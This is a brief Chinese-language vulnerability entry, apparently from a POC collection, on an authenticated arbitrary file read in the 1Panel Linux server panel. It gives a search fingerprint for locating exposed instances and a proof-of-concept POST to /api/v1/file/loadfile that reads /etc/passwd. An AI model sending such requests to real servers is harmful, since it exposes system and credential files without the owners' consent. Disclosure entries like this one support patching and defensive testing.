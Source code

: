 # 1Panel loadfile 后台文件读取漏洞

## 漏洞描述

1Panel 是一个现代化、开源的Linux 服务器运维管理面板。

1Panel 后台存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感信息文件

## 漏洞影响

1Panel

## 网络测绘

```
"1Panel"
```

## 漏洞复现

登陆页面

![image-20230828162515540](images/image-20230828162515540.png)

![image-20230828162528792](images/image-20230828162528792.png)

![image-20230828162539743](images/image-20230828162539743.png)

验证POC

```
POST /api/v1/file/loadfile

{"paht":"/etc/passwd"}
```

![image-20230828162553584](images/image-20230828162553584.png)
